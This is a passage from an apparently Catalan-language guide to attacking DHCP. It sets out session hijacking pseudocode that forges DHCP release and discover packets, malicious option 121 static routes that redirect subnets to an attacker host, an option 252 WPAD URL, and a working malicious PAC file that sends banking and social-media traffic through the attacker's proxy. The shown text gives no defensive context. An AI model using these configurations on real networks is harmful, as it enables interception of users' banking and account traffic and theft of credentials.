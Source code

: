 #### Session Hijacking via DHCP

```python
# Pseudocodi d'atac
def dhcp_hijack(target_mac, target_ip):
    # Enviar DHCP RELEASE fals per alliberar la IP
    send_dhcp_release(target_mac, target_ip)
    
    # Immediatament sol·licitar la mateixa IP
    send_dhcp_discover(attacker_mac)
    
    # Configurar IP amb gateway maliciós
    configure_malicious_dhcp_offer(target_ip)
```

---

## 4. DHCP Option Injection (Injecció d'Opcions DHCP)

### Opcions DHCP Crítiques per Atacar

#### Opció 121 - Static Routes (Rutes Estàtiques)

```bash
# Exemple d'injecció maliciosa
option classless-static-routes 
    8, 10.0.0.0, 192.168.1.10,     # Redirigir 10.0.0.0/8 a atacant
    24, 192.168.2.0, 192.168.1.10, # Redirigir subxarxa específica
    0, 192.168.1.1;                 # Gateway per defecte original
```

#### Opció 252 - Proxy Auto-Config

```bash
option web-proxy-auto-discovery-url "http://192.168.1.10/wpad.dat";
```

##### Contingut del Fitxer PAC Maliciós

```javascript
function FindProxyForURL(url, host) {
    // Interceptar tràfic bancari
    if (shExpMatch(host, "*.bank.com") || shExpMatch(host, "*banking*")) {
        return "PROXY 192.168.1.10:8080";
    }
    
    // Interceptar tràfic social media
    if (shExpMatch(host, "*.facebook.com") || shExpMatch(host, "*.twitter.com")) {
        return "PROXY 192.168.1.10:8080";
    }
    
    // Permetre altre tràfic directament
    return "DIRECT";
}
```
